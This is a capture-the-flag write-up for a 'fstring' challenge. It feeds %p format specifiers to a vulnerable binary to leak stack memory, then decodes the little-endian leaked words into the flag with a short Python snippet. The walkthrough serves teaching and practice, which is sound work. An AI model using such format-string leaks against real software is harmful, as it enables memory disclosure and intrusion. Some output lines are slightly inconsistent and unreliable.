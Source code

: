 if we run the binary it will ask for input and if we use `%p %p %p %p %p`
```
hi, welcome to fstring!
what's your name?
%x %x %x %x %x
hello, 0x7ffc01c289e0 0x7fdebadae8c0 (nil) 0x7 (nil)
```

as you can see it will output random value from the stack. if we look carefully the readFlag function is inside the vuln function itself so the flag must be in the stack, so we just need to find where the flag is. We can use `%x` or `%p` or even `%ld`  

```
hi, welcome to fstring!
what's your name?
%p %p %p %p %p %p %p %p %p %p
hello, 0x7fff91459780 0x7fb7ed9758c0 (nil) 0x7 (nil) 0x5f6573757b465443 0x635f66746e697270 0x796c6c7566657261 0x7f7d7a6c705f 0x7025207025207025

run the function again 1 more time

hi, welcome to fstring!
what's your name?
%p %p %p %p %p %p %p %p %p %p
hello, 0x7ffc069220b0 0x7f9093e858c0 (nil) 0x7 (nil) 0x5f6573757b465443 0x635f66746e697270 0x796c6c7566657261 0x7f7d7a6c705f 0x7025207025207025
```

as you can see the first and second output is different. This happen because the aslr is active. ASLR stands for Address Space Layout Randomization or we can use `checksec` to check it
```
checksec example2
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
PIE (Positition Independent Executable) we can see the same as ASLR so it will make our function have offset so it will behave differently everytime. But as you can see the 6th address is the same, so maybe this is the flag?
```
convert this to ascii 0x5f6573757b465443 0x635f66746e697270 0x796c6c7566657261 0x7f7d7a6c705f using python we get 0x70252070252070255 

it will give _esu{FTCc_ftnirpyllufera}zlp_p% p% p%
```

it looks like the flag but reverse, remember our machine use little endian so we must reverse the byte itself to get the correct flag. After we reverse it we get the flag
```py
flag = "0x5f6573757b465443-0x635f66746e697270-0x796c6c7566657261-0x7f7d7a6c705f"
arrflag = flag.split("-")

ans = b''
for item in arrflag:
  ans += p64(int(item, 16))

print(ans.decode())
```
and we get our desired flag: `CTF{use_printf_carefully_plz}`
